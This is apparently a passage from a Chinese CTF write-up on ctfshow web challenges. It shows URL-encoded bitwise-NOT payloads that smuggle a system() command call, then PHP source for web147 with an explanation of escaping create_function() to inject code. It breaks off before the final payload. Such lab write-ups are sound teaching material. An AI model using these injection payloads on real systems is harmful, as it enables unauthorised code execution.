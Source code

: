 payload

> 利用等号和位运算符 ||，|

```
v1=1&v2=1&v3===(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%99%D5)||
v1=1&v2=1&v3=|(~%8c%86%8c%8b%9a%92)(~%9c%9e%8b%df%99%d5)|
```

## web147(create_function的利用)

```php
<?php
highlight_file(__FILE__);

if(isset($_POST['ctf'])){
    $ctfshow = $_POST['ctf'];
    if(!preg_match('/^[a-z0-9_]*$/isD',$ctfshow)) {
        $ctfshow('',$_GET['show']);
    }

}
```

> create_function函数的第一个参数是参数，第二个参数是内容
>
> 函数结构形似
>
> ```
> create_function('$a,$b','return 111')
> 
> ==>
> 
> function a($a, $b){
>     return 111;
> }
> ```
>
> 我们需要跳出函数定义
>
> ```
> create_function('$a,$b','return 111;}phpinfo();//')
> 
> ==>
> 
> function a($a, $b){
>     return 111;}phpinfo();//
> }
> ```

payload：

为什么是%5c(\\)？
